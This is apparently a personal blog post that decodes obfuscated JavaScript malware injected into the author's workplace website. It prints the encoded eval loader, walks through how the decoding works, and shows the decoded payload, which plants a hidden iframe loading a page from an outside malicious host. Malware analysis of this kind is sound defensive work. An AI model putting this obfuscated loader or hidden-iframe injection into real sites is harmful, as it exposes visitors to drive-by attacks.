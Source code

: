 # Decoding found malware

Video test of screen recording while de-obfuscating some malware found at work

####################
Type:blog
Tags:JavaScript
####################

Early last year (2013), the main website for work was compromised and (amongst other things) a malicious script was inserted. I was able to grab a copy of the scipt, albeit second hand and will go through how it works.

This is how I received the code (or I initially mucked around with it and left it like this, I can not remember).

    zz='val';
    e=this[fromCharCode["substr"](11)+zz];    
    
    
    
    
        zz='val';
        ss=[];
    
        e=this.fromCharCode(substr(11)+'val');
    
        n=&quot;3.5$3.5$51.5$50$15$19$49$54.5$48.5$57.5$53.5$49.5$54$57$22$50.5$49.5$57$33.5$53$49.5$53.5$49.5$54$57$56.5$32$59.5$41$47.5$50.5$38$47.5$53.5$49.5$19$18.5$48$54.5$49$59.5$18.5$19.5$44.5$23$45.5$19.5$60.5$5.5$3.5$3.5$3.5$51.5$50$56$47.5$53.5$49.5$56$19$19.5$28.5$5.5$3.5$3.5$61.5$15$49.5$53$56.5$49.5$15$60.5$5.5$3.5$3.5$3.5$49$54.5$48.5$57.5$53.5$49.5$54$57$22$58.5$56$51.5$57$49.5$19$16$29$51.5$50$56$47.5$53.5$49.5$15$56.5$56$48.5$29.5$18.5$51$57$57$55$28$22.5$22.5$53.5$55.5$59.5$49.5$54$57.5$22$49$54$56.5$23$25.5$22$48.5$54.5$53.5$22.5$49$22.5$25$23$25$22$55$51$55$30.5$50.5$54.5$29.5$23.5$18.5$15$58.5$51.5$49$57$51$29.5$18.5$23.5$23$18.5$15$51$49.5$51.5$50.5$51$57$29.5$18.5$23.5$23$18.5$15$56.5$57$59.5$53$49.5$29.5$18.5$58$51.5$56.5$51.5$48$51.5$53$51.5$57$59.5$28$51$51.5$49$49$49.5$54$28.5$55$54.5$56.5$51.5$57$51.5$54.5$54$28$47.5$48$56.5$54.5$53$57.5$57$49.5$28.5$53$49.5$50$57$28$23$28.5$57$54.5$55$28$23$28.5$18.5$30$29$22.5$51.5$50$56$47.5$53.5$49.5$30$16$19.5$28.5$5.5$3.5$3.5$61.5$5.5$3.5$3.5$50$57.5$54$48.5$57$51.5$54.5$54$15$51.5$50$56$47.5$53.5$49.5$56$19$19.5$60.5$5.5$3.5$3.5$3.5$58$47.5$56$15$50$15$29.5$15$49$54.5$48.5$57.5$53.5$49.5$54$57$22$48.5$56$49.5$47.5$57$49.5$33.5$53$49.5$53.5$49.5$54$57$19$18.5$51.5$50$56$47.5$53.5$49.5$18.5$19.5$28.5$50$22$56.5$49.5$57$31.5$57$57$56$51.5$48$57.5$57$49.5$19$18.5$56.5$56$48.5$18.5$21$18.5$51$57$57$55$28$22.5$22.5$53.5$55.5$59.5$49.5$54$57.5$22$49$54$56.5$23$25.5$22$48.5$54.5$53.5$22.5$49$22.5$25$23$25$22$55$51$55$30.5$50.5$54.5$29.5$23.5$18.5$19.5$28.5$50$22$56.5$57$59.5$53$49.5$22$58$51.5$56.5$51.5$48$51.5$53$51.5$57$59.5$29.5$18.5$51$51.5$49$49$49.5$54$18.5$28.5$50$22$56.5$57$59.5$53$49.5$22$55$54.5$56.5$51.5$57$51.5$54.5$54$29.5$18.5$47.5$48$56.5$54.5$53$57.5$57$49.5$18.5$28.5$50$22$56.5$57$59.5$53$49.5$22$53$49.5$50$57$29.5$18.5$23$18.5$28.5$50$22$56.5$57$59.5$53$49.5$22$57$54.5$55$29.5$18.5$23$18.5$28.5$50$22$56.5$49.5$57$31.5$57$57$56$51.5$48$57.5$57$49.5$19$18.5$58.5$51.5$49$57$51$18.5$21$18.5$23.5$23$18.5$19.5$28.5$50$22$56.5$49.5$57$31.5$57$57$56$51.5$48$57.5$57$49.5$19$18.5$51$49.5$51.5$50.5$51$57$18.5$21$18.5$23.5$23$18.5$19.5$28.5$5.5$3.5$3.5$3.5$49$54.5$48.5$57.5$53.5$49.5$54$57$22$50.5$49.5$57$33.5$53$49.5$53.5$49.5$54$57$56.5$32$59.5$41$47.5$50.5$38$47.5$53.5$49.5$19$18.5$48$54.5$49$59.5$18.5$19.5$44.5$23$45.5$22$47.5$55$55$49.5$54$49$32.5$51$51.5$53$49$19$50$19.5$28.5$5.5$3.5$3.5$61.5&quot;.split(&quot;$&quot;);
    
        for(i=0; i &lt; 585; i++){
            ss=ss+String.fromCharCode(2*(1+1*n[i]));
        }
    
        e(ss);


The code itself is quite straightforward and relies on some fun obfuscation to (presumably) get around detection.

`51.5$53$49$19$50$19.5$28.5$5.5$3.5$3.5$61.5&quot;.split("$");`


Is simply a "$" delimited list which contains a bunch of numbers of which about half end in .5.


    for(i=0; i &lt; 585; i++){
        ss=ss+String.fromCharCode(2*(1+1*n[i]));
    }

This is the fun bit: for each number in the list, (starting from the inside out) multiply by one (`1*n[i]`) doing nothing and then add 1 (5.5 becomes 6.5) and then multiply that by 2. Multiplying by two removes the .5 and so we are guarenteed to integers which is useful as we then run these through the function fromCharCode (this part is messed up, I think b/c I mucked it up when it was discovered) which converts said integers into their unicode representations. Unicode representations that look (in this case) like code. Code which can be eval()'d (made from the first couple lines via simple concatenation and also mucked up by me). We end up with:

    if (document.getElementsByTagName('body')[0]){
        iframer();
    } else {
        document.write("&lt;iframe src='http://mqyenu.dns05.com/d/404.php?go=1' width='10' height='10' style='visibility:hidden;position:absolute;left:0;top:0;'&gt;&lt;/iframe&gt;");
    }
    function iframer(){
        var f = document.createElement('iframe');f.setAttribute('src','http://mqyenu.dns05.com/d/404.php?go=1');f.style.visibility='hidden';f.style.position='absolute';f.style.left='0';f.style.top='0';f.setAttribute('width','10');f.setAttribute('height','10');
        document.getElementsByTagName('body')[0].appendChild(f);
    }"

Which inserts an invisible IFrame and runs whatever was returned by the (now defunct) page.

Because I wanted to test the screen recording software that comes with Cinnamon I recorded playing around with this. Enjoy.

<video width="640" height="360" controls data-poster="https://assets.themetacity.com/video/foundmalwaredecodeposter.svg">
    <source src="https://assets.themetacity.com/video/foundmalwaredecode.webm" type='video/webm;codecs="vp8, vorbis"' data-fullscreen="true">
    <source src="https://assets.themetacity.com/video/foundmalwaredecode.mp4" type='video/mp4;codec="avc1"' data-fullscreen="true">
</video>